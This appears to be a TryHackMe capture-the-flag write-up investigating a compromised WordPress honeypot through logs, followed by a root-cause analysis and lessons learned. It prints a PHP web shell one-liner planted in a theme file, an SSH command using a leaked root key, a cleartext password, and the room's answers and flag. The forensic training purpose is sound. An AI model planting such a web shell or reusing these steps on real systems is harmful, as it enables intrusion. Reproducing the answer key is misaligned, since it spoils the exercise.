






# DeceptiTech – Initial Access Pot Investigation (Honeypot Compromise)

---

## Scenario Overview

DeceptiTech is a cybersecurity company specializing in honeypot technology. A junior IT employee, **Emily Ross**, was tasked with deploying a DeceptiPot (a WordPress-based honeypot) in the corporate DMZ over the weekend. Due to several critical misconfigurations, threat actors didn't just test the honeypot — one of them used it as a real entry point into the corporate network, ultimately leading to a ransomware attack that encrypted all critical systems and wiped the SIEM.

This writeup covers **Stage 1 of the attack chain**: Initial Access through the DeceptiPot.

---

## Enumeration

### Initial Recon

The machine runs WordPress on port 80 and is accessible via SSH. The first step is to connect and begin reviewing available logs.

```bash
ssh ubuntu@MACHINE_IP
```

Key tools configured on the system:
- **Auditd** — with non-standard audit rules capturing system calls
- **WordPress** — running on Apache/Nginx in `/var/www/html/wordpress/`

---

## Question 1 — Which web page did the attacker attempt to brute force?

### Investigation

Reviewing the web server access logs for unusual patterns:

```bash
cat /var/log/apache2/access.log | grep "POST" | head -50
```

A massive volume of POST requests was observed targeting a single endpoint, all originating from the same IP address (`167.172.41.141`). The User-Agent string confirmed the tool used:

```
Mozilla/5.0 (Hydra)
```

**Hydra** is a well-known brute-force tool. The attacker was systematically attempting credential combinations against the WordPress login page.

### Answer

```
/wp-login.php
```


---

## Question 2 — What is the absolute path to the backdoored PHP file?

### Investigation

After a successful brute-force, the attacker authenticated to the WordPress admin dashboard and injected a web shell into an existing theme file to avoid creating new suspicious files.

Searching for the classic web shell pattern:

```bash
grep -r "system(\$_POST" /var/www/html/wordpress/
```

The malicious code found:

```php
system($_POST['cmd']);
```

This one-liner gives the attacker full remote command execution by sending OS commands via HTTP POST requests to the file.

The file was placed inside the **Blocksy theme** directory — a legitimate theme folder — to blend in with normal WordPress files.

### Answer

```
/var/www/html/wordpress/wp-content/themes/blocksy/404.php
```


---

## Question 3 — Which file path allowed the attacker to escalate to root?

### Investigation

After establishing the web shell, the attacker began exploring the filesystem looking for privilege escalation opportunities. Using auditd logs to trace file access:

```bash
ausearch -m OPEN | grep "id_ed25519"
```

The attacker discovered a **backup of an SSH private key** left in an insecure location with improper permissions:

```bash
ls -la /etc/ssh/id_ed25519.bak
```

This file should never exist in a production environment. Emily had left an SSH private key backup here, likely during the initial setup. Because the key belonged to the `root` user, the attacker was able to use it to authenticate directly as root:

```bash
ssh -i /etc/ssh/id_ed25519.bak root@localhost
```

### Answer

```
/etc/ssh/id_ed25519.bak
```


---

## Question 4 — Which IP was port-scanned after the privilege escalation?

### Investigation

Once root access was achieved, the attacker pivoted to internal network reconnaissance — a classic lateral movement preparation step. Reviewing auditd logs for network-related syscalls:

```bash
ausearch -m SYSCALL | grep "connect"
```

The attacker performed:
1. A **ping sweep** to identify live hosts on the internal network segment.
2. A **Netcat port scan** targeting specific ports on the discovered host.

Targeted ports: **22 (SSH)**, **80 (HTTP)**, **3389 (RDP)** — indicating the attacker was looking for remote access vectors into the internal corporate network.

### Answer

```
172.16.8.216
```


---

## Question 5 — What is the MD5 hash of the malware persisting on the host?

### Investigation

The attacker established **system-level persistence** by creating a malicious `systemd` service designed to survive reboots. Checking for suspicious services:

```bash
systemctl list-units --type=service | grep -v "standard"
cat /etc/systemd/system/kworker.service
```

The service was named `kworker.service` — deliberately mimicking the legitimate Linux kernel worker process name (`kworker`) to deceive administrators. The malware binary was placed at:

```
/usr/sbin/kworker
```

Getting the MD5 hash:

```bash
md5sum /usr/sbin/kworker
```

### Answer

```
d6f2d80e78f264aff8c7aea21acb6ca6
```


---

## Question 6 — Can you access the DeceptiPot in recovery mode?

### Investigation

The root cause of the entire compromise was Emily's misconfiguration. Checking her home directory:

```bash
ls -la /home/ubuntu/
cat /home/ubuntu/deceptipot.conf
```

The configuration file revealed three critical failures:

```ini
debugmode = true
password = Em1lyR0ss_DeCePti!
ssh_key = /etc/ssh/id_ed25519.bak
```

- **`debugmode = true`** — Disabled all security controls and monitoring protections.
- **Cleartext password** — The password `Em1lyR0ss_DeCePti!` was stored in plaintext.
- **SSH key path** — Directly referenced the backup key used for privilege escalation.

Using the discovered password to access recovery mode:

```
Em1lyR0ss_DeCePti!
```

### Answer

```
Em1lyR0ss_DeCePti!
```

---

## Root Flag

```
THM{acc3ss_gr4nt3d!}
```


---

## Full Attack Chain Reconstruction

```
[1] Brute Force
    └─ Hydra → /wp-login.php
    └─ Attacker IP: 167.172.41.141

[2] Web Shell Injection
    └─ WordPress Admin Dashboard
    └─ Backdoor: /var/www/html/wordpress/wp-content/themes/blocksy/404.php
    └─ Payload: system($_POST['cmd']);

[3] Privilege Escalation
    └─ Discovered: /etc/ssh/id_ed25519.bak
    └─ SSH as root using exposed private key

[4] Persistence
    └─ Deployed: /usr/sbin/kworker
    └─ Service: kworker.service (mimics legitimate kernel process)
    └─ MD5: d6f2d80e78f264aff8c7aea21acb6ca6

[5] Lateral Movement Prep
    └─ Ping sweep + Netcat port scan
    └─ Target: 172.16.8.216
    └─ Ports: 22, 80, 3389
```

---

## Security Misconfigurations (Root Cause Analysis)

| # | Misconfiguration | Impact |
|---|---|---|
| 1 | `debugmode = true` in `deceptipot.conf` | Disabled all security and monitoring protections |
| 2 | Cleartext credentials in config file | Attacker recovered `Em1lyR0ss_DeCePti!` |
| 3 | SSH private key backup at `/etc/ssh/id_ed25519.bak` | Full root privilege escalation |
| 4 | Config file left in home directory with no access controls | Exposed full attack surface to any user on the system |
| 5 | No brute-force protection on WordPress login | Hydra was able to guess credentials unchallenged |

---

## Lessons Learned

1. **Never store credentials in plaintext config files.** Use secrets management tools (Vault, AWS Secrets Manager).
2. **SSH key backups must never be left on the system.** If needed, store them encrypted and offsite.
3. **Disable debug mode before any deployment** — even for testing environments.
4. **Implement rate limiting and lockout policies** on web authentication pages (Fail2Ban, WAF).
5. **Restrict home directory permissions** and audit what files are accessible to all users.
6. **Monitor systemd for new service creation** — attackers frequently abuse it for persistence.

---

*Writeup produced as part of SOC Analyst training — TryHackMe: Initial Access Pot*